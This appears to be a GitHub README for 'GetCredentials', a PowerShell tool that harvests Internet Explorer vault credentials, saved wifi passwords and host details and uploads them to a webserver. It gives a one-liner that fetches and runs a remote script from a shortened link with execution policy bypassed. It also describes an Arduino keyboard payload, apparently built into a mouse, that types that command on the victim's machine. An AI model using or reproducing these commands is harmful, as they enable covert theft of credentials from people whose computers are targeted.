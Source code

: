 # GetCredentials
Usage: powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘https://bit.ly/2El9Fyw’)"
Will get wifi credentials

.DESCRIPTION
Performs the following task
    - Get credentials from IE vault
    - Get saved wifi passwords
    - Get host information
    - Write to file to C:\temp\ (if folder exsists)
    - Upload with json to webserver "http://192.168.1.174" by default 
    
 .PARAMETERS
    -output
        Enter output path
        Example: ./GetCredentials.ps1 -output C:\windows\temp\out
    -url
        Enter url where the data will be sent as a json request
        Example: ./GetCredentials.ps1 -url http://192.168.1.174/data

Keyboard_payload.ino works for Arduino leonard with swedish keyboard
Will run IEX (New-Object Net.WebClient).DownloadString("https://bit.ly/2El9Fyw")

![alt text](https://raw.githubusercontent.com/mattiasgrondahl/GetCredentials/master/IntelliMouse30_assembled.PNG)

#Todo
Figure out how to pass parameters while using IEX to be able to modify -output and -url parameter
